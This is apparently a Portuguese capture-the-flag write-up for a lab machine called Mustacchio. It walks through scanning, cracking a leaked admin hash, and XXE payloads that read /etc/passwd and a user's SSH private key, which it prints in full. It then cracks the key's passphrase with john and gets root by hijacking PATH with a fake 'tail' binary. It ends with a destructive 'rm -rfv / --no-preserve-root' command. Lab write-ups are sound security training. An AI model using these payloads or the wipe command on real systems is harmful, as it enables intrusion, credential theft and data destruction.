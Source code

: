 MUSTACCHIO CTF

Ao inicar dei nmap 

    nmap -A -sV IP 

Encontrei 2 portas 22, 80

Assim partindo pra procura de diretorios usando o gobuster

    gobuster dir -u IP -w directory-list-2.3-small.txt -x php,html,txt

Encontrando o diretorio /custom que possuia dentro da pasta js tinha um arquivo de backup que ao baixa-lo

    wget IP/custom/users.bak

Ao ler o arquivo encontrava-se um username e uma senha 

    admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

Assim 

    username: admin
    password: 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

Tentando conectar no ssh com essas informacoes nao foi possivel, entao fui atras de outras formas, percebi que essa senha e uma chave encriptada entao fui a um site descriptar essa senha

    hashtoolkit

Ao colocar essa senha la ele me retornava a senha descriptada

    bulldog19

Ao tentar acessar de varias formas e sem sucesso percebi que algo estava errado, refiz os processos para ver o que deixei passar e quando refiz o nmap, percebi onde estava o erro, analisei novamente de uma forma mais agressiva 

    nmap -p- -sV IP

Assim mostrando mais 1 porta que nao tinha acesso antes.. a porta "8765"
Agora acessando essa porta IP:8765 tinha uma pagina admin... agora era so logar com os dados que ja tinhamos

    username admin
    pass bulldog19

Ao acessar esse painel admin tinha uma caixar para inserir comentarios, ao olhar o codigo fonte tinha 2 comentarios interessantes 

    //document.cookie = "Example=/auth/dontforget.bak";
    function cheacktarea() {
    let tbox = document.getElementById("box").value;
    if (tbox == null || tbox.lenght == 0 ) {
    alert("Insert XML Code!")
        }
    }

    <!-- Barry, you can now SSH in using your key! -->

Assim tendo acesso a mais um arquivo de backup e um username 

    wget IP:8765/auth/dontforget.bak

    <?xml version="1.0" encoding="UTF-8"?>
    <comment>
    <name>Joe Hamd</name>
    <author>Barry Clad</author>
    <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
    </comment>

Para explorar essa falha XXE executando o payload XML para ver se era possivel ler as pastas tambem 

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE updateProfile [
    <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
    <comment>
    <name>Joe</name>
    <author>dannydev19</author>
    <com>&file;</com>
    </comment> 

Tendo acesso a essa pasta vi que era possivel ler qualquer arquivo entao, fui atras da chave RSA do Barry 

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE updateProfile [
    <!ENTITY file SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
    <comment>
    <name>Barry</name>
    <author>dannydev19</author>
    <com>&file;</com>
    </comment>

Assim conseguindo ter acesso a chave RSA 

    -----BEGIN RSA PRIVATE KEY----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

    jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
    bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
    MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
    l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
    Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
    NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
    ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
    TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
    rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
    bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
    4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
    7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
    T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
    ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
    LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
    pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
    laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
    vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
    DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
    6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
    ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
    7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
    1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
    +Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
    7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
    -----END RSA PRIVATE KEY----

Criando o arquivo RSA

    nano barryrsa
    Introduzindo essa chave nesse arquivo

Ao tentar connectar no ssh com essa chave direto percebemos que deu outro erro , essa chave estava encriptada e precisamos da senha dela, agora para isso e preciso usar o programa john the ripper, para usar esse programa, primeiramente vemos se ele esta no nosso sistema 

    locate ssh2john.py

Assim e so executar esse arquivos passando os parametros

    python /usr/share/john/ssh2john.py barryrsa > johncracked.hash
    john --wordlist=/usr/share/wordlists/rockyou.txt johncracked.hash

Assim conseguindo a senha do barry

    username: Barry
    password: urieljames

Assim e so conectar no ssh... Finalmente!!

    ssh -i barryrsa barry@IP

Assim conseguindo acesso a maquina

    cat user.txt
    62d77a4d5f97d47c5aa38b3b2651b831

Agora precisamos escalar nossos privilegios e se tornar o root..
Dentro do perfil do Joe tinha um arquivo chamado "live_log"

    strings live_log
    tail -f /var/log/nginx/access.log

Vendo esse arquivo tinhamos que ir ate o /tmp e criar um arquivo chamado "tail"

    nano tail
    
    "/bin/bash"
    
Adicionando perms..

    chmod 777 tail

Agora dentro do user joe executamos o arquivo "live_long" para conseguir acesso ao root
    
    ./live_log

Assim tendo acesso ao root...

    cat root.txt
    3223581420d906c4dd1a5f9b530393a5

Finalizando...

    touch dannydev19.txt
    rm -rfv / --no-preserve-root 


![image](https://user-images.githubusercontent.com/86691253/185536036-b6574f36-e526-4761-90bd-eac215efb7e9.png)
